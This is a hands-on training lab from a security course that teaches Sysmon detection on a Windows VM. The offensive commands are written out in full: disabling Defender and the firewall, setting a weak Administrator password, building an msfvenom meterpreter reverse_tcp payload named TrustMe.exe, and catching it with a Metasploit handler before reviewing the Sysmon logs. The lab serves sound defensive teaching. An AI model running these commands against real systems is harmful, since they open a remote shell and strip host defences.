



---

This is a lab from **John Strand**'s **Information Security Core Skills** Course:

https://www.antisyphontraining.com/product/information-security-core-skills-tm/

---

# Sysmon

# Windows VM

### Lab Objective
In this lab we will be looking at what an attacker can do with valid accounts.  

To learn more about this attack check out the following:<br>
https://attack.mitre.org/techniques/T1078/

Here are just some groups that have used this attack:


<hr>

## Step 1: Setting Up Our Session
### Disable Defender
Let’s begin by disabling **Defender**. Simply run the following from an **Administrator PowerShell** prompt:


Next, run the following command in the **Powershell** terminal:

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.
<br>

### Disable Firewall
Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

```ps
netsh advfirewall set allprofiles state off
```
<br>

### Set Administrator Password
Next, set a password for the Administrator account that you can remember

```ps
net user Administrator password1234
```

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Now we need a **Linux Terminal**.

**Double-click** `Ubuntu Shell` on the desktop:


Run the following command to become root:

```bash
sudo su -
```
<br>

### Get Linux IP
Before we run the next commands, we need to get the **IP** of our **Linux System**. Lets do so by running the following:

```bash
ifconfig
```


>[!NOTE]
>
>**REMEMBER: YOUR IP WILL BE DIFFERENT**

<br>
### Start Listener
Run the following commands to start a simple backdoor and backdoor listener: 

```bash
cd /tmp/
```

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe > /tmp/TrustMe.exe
```
<hr>

## Step 2: Starting The Metasploit Handler
**Double-click** the `Ubuntu Shell` icon on the desktop to open another **Linux terminal**:


Now let's start the **Metasploit** Handler

```bash
sudo msfconsole -q
```

We are going to run the following commands to correctly set the parameters:

```bash
use exploit/multi/handler
```

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

```bash
set LHOST [Your Linux IP Address]
```

Remember, **Your IP will be different!**

```bash
exploit
```

It should look like this:


Going back to our **Powershell** terminal, copy the file over from **Linux**

```ps
cd .\Desktop\
```

```ps
scp ubuntu@linux.cloudlab.lan:/tmp/TrustMe.exe .
```


Now we will need to open a **Command Prompt** terminal as **Administrator**. 

Double-click the icon on the desktop:


<br>

Once it opens, run the following:

```cmd
cd \IntroLabs
```

```cmd
Sysmon64.exe -accepteula -i sysmonconfig-export.xml
```

It should look like this:


Let's run the following commands to run the **"TrustMe.exe"** file.

```cmd
cd \Users\Administrator\Desktop
```
 
Then run it with the following:

```cmd
TrustMe.exe
```

Back at your **Linux terminal**, you should have a metasploit session!


<br>

Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.



You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational



You'll have to scroll down a bit until you find the **Sysmon** folder.  



Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.


***                                                                 
<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---


